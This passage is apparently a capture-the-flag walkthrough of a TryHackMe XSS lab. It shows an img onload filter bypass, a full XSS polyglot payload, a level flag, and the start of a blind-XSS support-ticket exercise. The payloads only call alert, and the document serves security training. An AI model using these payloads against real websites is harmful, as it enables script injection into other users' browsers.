 ```html
<div class="text-center">
	<h2>Your Picture</h2>
	<img src=""scriptalert('THM');/script">
</div>
```

We can see that the `<` and `>` characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. 

The onload event executes the code of our choosing once the image specified in the src attribute has loaded onto the web page. 

Let's change our payload to reflect this `/images/cat.jpg" onload="alert('THM');` and then viewing the page source, and we will see how this will work.

```html
<div class="text-center">
	<h2>Your Picture</h2>
	<img src="/images/cat.jpg" onload="alert('THM');">
</div>
```

Now when we click the enter button, we get an alert popup with the string THM. And then, we will get a confirmation message that our payload was successful; with this being the last level, we receive a flag. **THM{XSS_MASTER}** 
## Polyglots

An XSS Polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You can have used the below polyglot on all six levels that we just completed, and it would have executed the code successfully.

```jS
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
# Practical Example (Blind XSS)

Click on the **Customers** tab on the top navigation bar and click the "**Signup here**" link to create an account. Once your account gets set up, click the **Support Tickets** tab, which is the feature we will investigate for weaknesses. 

Try creating a support ticket by clicking the green Create Ticket button, enter the subject and content of just the word test and then click the blue Create Ticket button. You'll now notice your new ticket in the list with an id number which you can click to take you to your newly created ticket. 

Like task three, we will investigate how the previously entered text gets reflected on the page. Upon viewing the page source, we can see the text gets placed inside a textarea tag.

```html
    <div><label>Ticket Contents:</label></div>
    <div><textarea class="form-control">text</textarea></div>
  </div>
</div>
```
